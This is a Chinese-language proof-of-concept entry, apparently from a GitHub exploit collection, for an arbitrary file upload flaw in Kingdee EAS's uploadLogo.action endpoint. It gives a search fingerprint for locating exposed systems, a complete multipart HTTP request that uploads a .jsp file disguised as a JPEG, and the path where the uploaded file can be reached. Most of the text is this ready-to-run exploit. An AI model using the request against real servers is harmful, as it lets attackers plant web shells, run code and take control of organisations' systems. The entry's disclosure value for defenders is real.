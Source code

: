 # 金蝶OA EAS系统 uploadLogo.action 任意文件上传漏洞

## 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## 漏洞影响

金蝶OA EAS系统

## 网络测绘

```
"/easportal/"
```

## 漏洞复现

登陆页面

![image-20231116141032395](images/image-20231116141032395.png)

poc

```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```

![image-20231116141050903](images/image-20231116141050903.png)

```
/portal/res/file/upload/xxx.jsp
```

